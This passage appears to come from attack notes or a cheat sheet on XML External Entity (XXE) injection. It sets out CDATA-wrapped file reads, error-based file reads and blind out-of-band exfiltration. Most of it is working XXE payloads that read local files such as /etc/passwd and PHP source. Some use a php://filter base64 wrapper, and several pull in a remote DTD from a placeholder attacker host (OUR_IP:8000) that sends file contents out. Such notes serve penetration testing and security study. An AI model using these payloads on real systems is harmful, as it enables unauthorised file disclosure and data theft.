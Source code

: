     In the request use the `CDATA` tag, reference the `&joined;` entity

    ```xml
    <!ENTITY % begin "<![CDATA["> 
    <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> 
    <!ENTITY % end "]]>">
    <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> 
    %xxe;
    ```

- **Error based File Read**

  1. Try to cause an error

     - delete any of the closing tags, 
     - change one of them, so it does not close
     - reference a non-existing entity

  2. Host a DTD file with the payload

     ```xml
     <!ENTITY % file SYSTEM "file:///etc/hosts">
     <!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
     ```

     Defines the `file` parameter entity and joins it with a non-existing entity

  3. Request the DTD file referencing for `&nonExistingEntity;%file;`

     ```xml
     <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
     %remote;
     %error;
     ```

- **Blind File Read**

  - Out-of-band (OOB) Data Exfiltration

    send a web request to our web server with the content of the file

    1. Define file Entity, e.g. using php filter and define its content in another

       ```xml
       <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
       <!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
       ```

    2. Host a DTD file with content:

       ```xml
       <?xml version="1.0" encoding="UTF-8"?>
       <!DOCTYPE email [ 
         <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
         %remote;
         %oob;
       ]>
       <root>&content;</root>
       ```
